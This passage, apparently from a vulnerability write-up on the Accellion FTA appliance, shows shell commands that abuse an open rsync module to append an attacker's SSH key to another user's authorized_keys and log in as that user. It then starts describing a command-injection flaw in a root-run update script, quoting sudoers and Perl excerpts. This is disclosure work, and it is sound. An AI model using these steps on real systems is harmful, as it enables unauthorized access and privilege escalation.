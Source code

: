 {% highlight bash %}
bash-3.2$ id
uid=99(nobody) gid=99(nobody) groups=99(nobody)

bash-3.2$ rsync 0::soggycat/.ssh/
drwx------        4096 2016/01/29 18:13:41 .
-rw-r--r--         606 2016/01/29 18:13:41 authorized_keys

bash-3.2$ rsync 0::soggycat/.ssh/authorized_keys .
bash-3.2$ cat id_dsa.pub >> authorized_keys
bash-3.2$ rsync authorized_keys 0::soggycat/.ssh/

bash-3.2$ ssh -i id_dsa -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no soggycat@localhost id
Could not create directory '/.ssh'.
Warning: Permanently added '0,0.0.0.0' (RSA) to the list of known hosts.
uid=520(soggycat) gid=99(nobody) groups=99(nobody)

{% endhighlight %}
<br>


##### 2. Command Injection in "yum-client.pl"

To enable system updates through web UI, the sudoers configuration in FTA exceptionally allows the user nobody to directly execute commands with root privileges and update software with the program `yum-client.pl`.

**/etc/sudoers**
{% highlight apache %}
...
Cmnd_Alias      YUM_UPGRADE = /usr/bin/yum -y upgrade
Cmnd_Alias      YUM_CLIENT = /usr/local/bin/yum-client.pl
...
# User privilege specification
root     ALL=(ALL) ALL
admin    ALL =NOPASSWD: UPDATE_DNS, UPDATE_GW, UPDATE_NTP, RESTART_NETWORK, CHMOD_OLDTEMP ...
nobody   ALL =NOPASSWD: SSL_SYSTEM, ADMIN_SYSTEM, IPSEC_CMD, YUM_CLIENT
soggycat ALL =NOPASSWD: ADMIN_SYSTEM, IPSEC_CMD, CHOWN_IPSEC, UPDATE_IPSEC, YUM_CLIENT
radmin   ALL =NOPASSWD: RESET_APPL
...
{% endhighlight %}
<br>

`YUM_CLIENT` is the command for proceeding updates. Part of the codes are as follows:

**/usr/local/bin/yum-client.pl**

{% highlight perl %}
...
GetOptions (
   'help' => \$help,
   'download_only' => \$download_only,
   'list' => \$list,
   'cache' => \$cache,
   'clearcache' => \$clearcache,
   'cdrom=s' => \$cdrom,
   'appid=s' => \$appid,
   'servername=s' => \$servername,
   'version=s' => \$version,
   'token=s' => \$token);

my $YUM_CMD = "/usr/bin/yum";
if ($cache){
  $YUM_CMD = "$YUM_CMD -C";
}
